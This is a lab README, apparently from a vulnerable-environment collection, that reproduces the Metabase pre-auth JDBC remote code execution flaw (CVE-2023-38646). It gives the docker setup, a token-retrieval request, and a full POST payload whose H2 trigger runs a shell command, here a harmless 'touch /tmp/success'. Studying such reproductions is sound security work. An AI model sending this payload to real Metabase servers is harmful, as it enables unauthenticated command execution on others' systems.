

# Metabase Pre-Auth JDBC Remote Code Execution (CVE-2023-38646)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform.

Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow unauthenticated attackers to execute arbitrary commands on the server, at the server's privilege level. This issue is caused by JDBC url attacks in the setup request.

References:

- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- <https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA>

## Vulnerable environment

Execute following command to start a Metabase server 0.46.6:

```
docker compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:


Fill in your information, and skip the data source form.

## Exploit

Firstly, use following request to retrieve the `setup-token`:

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```


The vulnerability can only be exploited by obtaining this setup token.

Secondly, replace your `[setup-token]` into the following request then send it:

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

As you can see, `touch /tmp/success` has been executed successfully:


